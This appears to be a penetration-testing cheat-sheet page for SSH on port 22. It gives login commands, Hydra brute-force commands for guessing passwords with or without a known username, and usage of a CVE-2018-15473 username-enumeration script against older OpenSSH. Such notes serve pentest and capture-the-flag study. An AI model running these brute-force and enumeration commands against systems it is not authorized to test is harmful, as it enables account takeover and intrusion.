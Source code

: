 # 22 - SSH

## Basic Access to SSH

```bash
user@localhost~$ ssh <USER>@<IP>
Enter Password: 
```

## Acces with a Private Key

```bash
chmod 600 id_rsa
user@localhost~$ ssh -i id_rsa <USER>@<IP>
```

## Bruteforcing SSH with Hydra

### When you have an username

```bash
user@localhost~$ hydra -l <USER> -P <WORDLIST> <IP> ssh
```

### When you don't have an username

```bash
user@localhost~$ hydra -L <WORDLIST> -P <WORDLIST> <IP> ssh
```

## SSH User Enumeration

{% hint style="warning" %}
OpenSSH < 7.7
{% endhint %}

Tool : [SSH User Enumeration](https://github.com/epi052/cve-2018-15473)

```bash
user@localhost~$ ./ssh-username-enum.py -t <THREADS> -w <WORDLIST> <IP>
[+] <USERNAME> found!
```
